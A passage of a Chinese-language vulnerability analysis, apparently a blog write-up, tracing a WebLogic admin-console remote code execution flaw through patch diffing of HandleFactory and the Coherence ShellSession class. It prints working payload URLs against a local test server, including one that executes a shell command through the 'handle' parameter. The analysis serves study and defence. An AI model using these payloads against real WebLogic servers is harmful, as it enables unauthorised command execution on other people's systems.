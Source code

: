 最后将 dep 文件夹右击添加为库，此时 dep 中的所有 jar 包都可以展开和打断点了。

#### **RCE 部分**

调试该部分由于没有加绕过，所以请在登录到后台之后进行

payload:  

```
http://127.0.0.1:7001/console/console.portal?_nfpb=true&_pageLabel=HomePage1&handle=java.lang.String("yahaha")
```

记得对里面的特殊字符进行 URL 编码

根据越南兄弟的补丁对比，第一处修改有:  

```
/dep/console.jar!/com/bea/console/handles/HandleFactory.class
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7crA9lEhpfpgvXOnDicxbGQwRAKiajsLmsC1YsichPC3AadKjBjqicR7gsiazA/640?wx_fmt=png)

如果没修改的情况，可以发现这里可以任意指定类，并获得其以字符串为参数的构造函数，然后进行初始化。

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7cr1N4FicIbAw3icFSxDM6dyyWa6SEBQ89viaxOrShLjrCRrAc2jtgd0r3Pw/640?wx_fmt=png)

args 被输入数据完全控制，但无论如何只会获得一个值：

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7cr0xToT8QxBfbFfL9PY459Pe6O6yBs6sdDtiaoiahvgPAjDvUKru7a0Leg/640?wx_fmt=png)

由此我们可以推断出，通过 url 传入的参数 handle 我们可以获得具有 string 作为构造函数的类。

##### **ShellSession 利用**

com.tangosol.coherence.mvel2.sh.ShellSession 就是大佬们找到的类，我们先看看这个类：  

```
/dep/coherence-rest.jar!/com/tangosol/coherence/mvel2/sh/ShellSession.class
```

这里尝试使用 payload：  

http://127.0.0.1:7001/console/console.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime('ls');");

只看参数为 String 的构造函数：

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7creuFTO7MZeReEC1Y8u1Y7L4ytXNC3iauHMVibn54vQpeOvn3icn6LzzbTA/640?wx_fmt=png)

真是简单又直接，这里会调用一次无参构造函数，然后再调用本类的 exec 方法：

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsh11QJRI6lYw70Xlnic7X7cr4dZphL7zfCB7FrQm9oWDvad2EicZfnRTBcnqeN9v8XWgrtgFof3WlGQ/640?wx_fmt=png)

_exec 非常长，从源码看来就是解析命令并执行用的，这里就不调了

我们直接直接上 payload 看看：

http://127.0.0.1:7001/console/console.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/test1%27);%22);
